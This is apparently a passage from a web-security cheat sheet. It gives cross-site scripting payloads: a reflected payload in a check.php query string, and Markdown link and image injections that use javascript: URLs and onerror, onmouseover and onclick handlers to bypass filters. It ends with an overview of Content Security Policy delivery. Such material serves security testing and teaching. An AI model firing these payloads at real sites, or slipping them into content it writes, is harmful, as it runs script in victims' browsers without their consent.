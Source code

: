 **Payload**
```js
/content-type/check.php?username=<u>test123"><a href=javascript:alert(1)>test123
```

---

## 📝 XSS in Markdown

### Basic XSS Payload
```md
[xss link](javascript:alert(document.domain))
```

### Using Filter Bypass Payloads
Refer to: [Markdown XSS Payloads](https://github.com/cujanovic/Markdown-XSS-Payloads/blob/master/Markdown-XSS-Payloads.txt)

```md
[test123](https://www.google.com"onerror=alert``)
[test123](https://www.google.com"onmouseover=alert``)
[test123](https://www.google.com"onclick=alert``)
```

### Markdown Image Injection
You can test payloads via image URLs.
```md
![test](https://website.com/images/logo.svg1"onerror=alert``)
![test](https://website.com/images/logo.svg1"onerror=alert();//)
![test123](https://website.com/images/logo.svg"onmouseover=alert(1);//)
```
To extract the image address, right-click the image and choose Copy `image address`.

---

## Content Security Policy (CSP) Overview

**Content Security Policy (CSP)** is a security standard to prevent various attacks including Cross-Site Scripting (XSS) by restricting the sources from which content like scripts, images, or styles can be loaded.

### CSP Delivery Methods

- **HTTP Header:**  
  Sent from the server to the browser:  
  ```http
  Content-Security-Policy: ...
  ```

- **HTML Meta Tag:**
  Declared in the <head> section of the HTML document:
  ```html
  <meta http-equiv="Content-Security-Policy" content="...">
  ```
